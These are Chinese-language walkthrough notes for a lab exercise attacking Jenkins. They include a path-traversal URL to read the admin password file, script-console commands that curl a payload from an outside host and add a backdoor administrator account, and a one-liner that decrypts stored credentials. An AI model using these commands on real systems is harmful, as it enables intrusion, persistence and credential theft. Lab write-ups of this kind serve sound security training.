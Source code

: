 [批量扫描脚本-Jenkins任意文件读取(CVE-2024-23897)](https://mp.weixin.qq.com/s/eES8iWuu1MNJQFUCib5L3Q)
[CVE-2024-23897 Jenkins 任意文件读取一键利用](https://mp.weixin.qq.com/s/fQd193hBrqKGpC-L7kxHBQ)
春秋云境 Privilege

# 查找密码
Jenkins 用户名为 admin, 服务密码在
```bash
/tools/content-log.php?logfile=../../../../../../../../../ProgramData/Jenkins/.jenkins/secrets/initialAdminPassword
```
# 命令执行
Dashboard > Manage Jenkins > 脚本命令执行
```bash
println "curl -o C:/Users/1.py http://1.2.3.4:8000/jenkins.py".execute().text
println "net user dotast qwer1234! /add".execute().text  
println "net localgroup administrators dotast /add".execute().text  
```
# 查找凭据
Dashboard > Manage Jenkins > Credentials

gitlab 解明文
```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```

